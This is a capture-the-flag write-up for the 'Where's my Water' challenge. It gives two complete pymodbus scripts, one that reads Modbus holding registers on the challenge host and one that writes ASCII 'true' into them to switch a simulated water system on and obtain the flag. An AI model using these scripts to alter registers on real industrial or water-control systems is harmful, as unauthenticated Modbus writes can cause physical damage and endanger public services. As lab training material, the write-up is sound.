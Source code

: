 # Where's my Water

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/754107ae-5df1-47b1-b97c-46b765ea99a0)

Accessing the first link, we get a webpage saying that the water doesn't work.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/c3e6683e-319f-484e-99e9-aa6acc68b1a5)

Considering the hint in the description where it says `busmod`, we can deduce that the second link is for the communcation of the `modbus` protocol. I asked chatGPT how I can read this protocol, specifically the registers and it came up with the script below which I only had to minimally modify:

```python3
from pymodbus.client import ModbusTcpClient

# Modbus server IP address and port
SERVER_IP = 'challenge.nahamcon.com'
SERVER_PORT = 30144

# Modbus device ID (slave address)
DEVICE_ID = 1

# Starting address and number of registers to read
START_ADDRESS = 0
NUM_REGISTERS = 24

# Create a Modbus TCP client
client = ModbusTcpClient(SERVER_IP, SERVER_PORT)

try:
    # Connect to the Modbus server
    client.connect()

    # Read Modbus data
    response = client.read_holding_registers(START_ADDRESS, NUM_REGISTERS, unit=DEVICE_ID)

    if not response.isError():
        # Process the read data
        data = response.registers
        for i, value in enumerate(data):
            register_address = START_ADDRESS + i
            print(f'Register {register_address}: {value}')
    else:
        print(f'Error reading Modbus data: {response.message}')

except Exception as e:
    print(f'Error: {str(e)}')

finally:
    # Close the Modbus connection
    client.close()
```

I ran this script and then used `awk` to parse out the content:

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/1109178b-54fd-4727-bb25-ca55e4ecc3d1)

It would seem that our registers tell us that the water is turned off:

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/69f0f836-6f52-4525-a1ba-aca1d2791e91)

I asked ChatGPT to help me write to the modbus registers. I need to write only the `false` statement and set it to true.   
116 = t  
114 = r  
117 = u  
101 = e   

17 is not a letter character so it won't be taken into account. I initally read more than the first 24 registers and all of them after the 24th one was set to 17.

```python3
from pymodbus.client import ModbusTcpClient

# Modbus server IP address and port
SERVER_IP = 'challenge.nahamcon.com'
SERVER_PORT = 30144

# Modbus device ID (slave address)
DEVICE_ID = 1

# Register addresses and corresponding values to write
register_values = {
    19: 116,
    20: 114,
    21: 117,
    22: 101,
    23: 17,
    # Add more register addresses and values as needed
}

# Create a Modbus TCP client
client = ModbusTcpClient(SERVER_IP, SERVER_PORT)

try:
    # Connect to the Modbus server
    client.connect()

    # Write values to Modbus registers
    for register_address, value in register_values.items():
        response = client.write_register(register_address, value, unit=DEVICE_ID)

        if not response.isError():
            print(f'Successfully wrote value {value} to register {register_address}')
        else:
            print(f'Error writing to register {register_address}: {response.message}')

except Exception as e:
    print(f'Error: {str(e)}')

finally:
    # Close the Modbus connection
    client.close()
```

I ran the script and got confirmation that I wrote to the registers turning the water on:

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/e7ccad44-3750-44f4-b6f9-475c2f909658)

I refreshed the page and got the flag:

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/a6a6bf10-5b68-4eed-9be9-0dcff505de8e)

flag{fe01fd254c40488ff3f164e2343cd0044c6d87d3}



